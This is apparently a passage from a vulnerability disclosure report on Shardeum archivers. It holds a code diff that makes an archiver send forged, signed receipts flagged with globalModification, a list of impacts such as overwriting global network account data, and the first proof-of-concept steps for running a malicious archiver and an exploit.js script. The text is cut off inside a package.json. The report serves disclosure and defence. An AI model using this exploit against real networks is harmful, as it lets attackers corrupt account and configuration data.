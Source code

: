 ```
+                            node_id: '',
+                            sign: {owner: '', sig: ''},
+                            app_data_hash: ''
+                    },
+                    message: '',
+                    nodeId: '',
+                    sign: {owner: '', sig: ''}
+            }
+    },
+    appReceiptData: {
+        data: {
+            amountSpent: "100",
+            readableReceipt: { status: 1 }
+        }
+    },
+    executionShardKey: "",
+    globalModification: true
+}]
+        console.log('sending hackers receipts', receipt)
+        const res = Crypto.sign({
+      receipts: [receipt]
+        })
+        reply.send(res)
+    } else {
     if (count) {
       if (count <= 0 || Number.isNaN(count)) {
         reply.send({ success: false, error: `Invalid count` })
@@ -598,7 +669,7 @@ export function registerRoutes(server: FastifyInstance<Server, IncomingMessage,
     const res = Crypto.sign({
       receipts,
     })
-    reply.send(res)
+    reply.send(res)}
   })
 
   type AccountRequest = FastifyRequest<{

```

## Impact Details
- Any user or global account data can be overwritten on all active archivers.
- The network global account is used by validators to load initial configuration, which can be controlled by an attacker.
- The global modification flag in account data allows the attacker to skip most validations and overwrite global network account data.




        
## Proof of concept
## Proof of Concept
1. Start the local Shardeum network.
2. Compile the malicious archiver (you need to include the local archiver-server in the shardeum-core package.json).
3. Start the malicious archiver and provide ARCHIVER_INFO=ip:port:public_key, so the malicious archiver can connect to the main archiver.
4. Update the URL to the main archiver, the public key, and the private key inside exploit.js, then run npm i. package.json:
```json
{
  "name": "exploit",
  "version": "1.0.0",
```